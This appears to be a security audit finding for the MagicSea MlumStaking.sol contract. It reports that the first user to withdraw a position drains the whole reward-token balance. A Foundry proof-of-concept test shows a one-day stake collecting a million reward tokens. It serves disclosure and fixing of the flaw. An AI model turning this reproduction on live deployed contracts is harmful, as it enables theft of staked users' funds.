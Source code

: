 Large Lead Boa

High

# Reward balance of `MlumStaking.sol` is drained fully by the first user who call `MlumStaking::withdrawFromPosition`.

## Summary
When user calls `MlumStaking::withdrawFromPosition` it allows user to withdraw his position and take the accured reward which is generated by staking his MLUM tokens. So when the user withdraws because of some mathematical error the first one who withdraws from the `MlumStaking` get the whole `rewardToken` balance of the `MlumStaking` contract and this leads to draining of the `rewardToken` from the protocol contract account.

## Vulnerability Detail
Once the user staked his position and the lock duration gets completed he can withdraw his position by calling  `MlumStaking::withdrawFromPosition` which will withdraw him his staked tokens which is MLUM and also transfer the rewards he generated in the form of `rewardToken`. 

The problem here is because of some calculation error in the contract the first one to withdraw from the contract gets the whole contract balance of `rewardToken` in the form of rewards which leads to draining of all the `rewardToken` which is being there. So this can leads to issue because someone will just stake the MLUM token for the least amount of the time and can easily drain the whole balance in the form of rewards.

Let's understand this with example along with POC::
- Suppose there is a user who creates his position and stake 5 MLUM tokens for just 1 day.
- Let's assume the `MlumStaking` contract has the balance of `rewardToken` = 1 Million tokens. [1,000,000 * 10**6].
- Now after the locking period ends which is just a single day. The user will withdraw his stake fully or partially.
- It will reward him with the whole 1 Million token as the reward.

Here's the POC : Test it by running `forge test --mt testRewardWithMoreBalance -vvvvv` ::
```solidity
function testRewardWithMoreBalance() public {
        _rewardToken.mint(address(_pool), 1_000_000_000_000); // 1,000,000 *10^6 [1 Million reward token]
        _stakingToken.mint(ALICE, 10 ether);// 10 * 10^18 

        console.log("Contract initial Reward token balance:- " ,_rewardToken.balanceOf(address(_pool)));
        console.log("Alice initial Reward token balance :- ", _rewardToken.balanceOf(ALICE));
        console.log("------------------------------------------------------------------------------------");
        console.log("------------------------------------------------------------------------------------");

        // Creating Position
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 5 ether);
        _pool.createPosition(5 ether, 1 days);
        vm.stopPrank();

        // Skipping the lock time to unlock it
        skip(1 days);

        // Alice withdrawing the position after successful lock completion
        vm.prank(ALICE);
        _pool.withdrawFromPosition(1, 5 ether);

        console.log("Contract Reward token balance after Withdrawal:- ", _rewardToken.balanceOf(address(_pool)));
        console.log("Alice Reward token balance after withdrawal:- ", _rewardToken.balanceOf(ALICE));
    }
```
**Here's the Output for the test :**
![image](https://github.com/sherlock-audit/2024-06-magicsea-yash-0025/assets/68538952/5d62ffce-8a62-44e4-a788-8e3470b61af7)
 
## Impact
Withdrawing of position from the first user who withdraws will leads to draining of whole contract rewardToken balance.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L496-L502
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L442-L448
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L574-L591
## Tool used

Manual Review

Foundry

## Recommendation

Try adding checks so that user can only withdraw the amount which he generated as the rewards not more than that to prevent the whole balance to get drained in the form of rewards to the user.
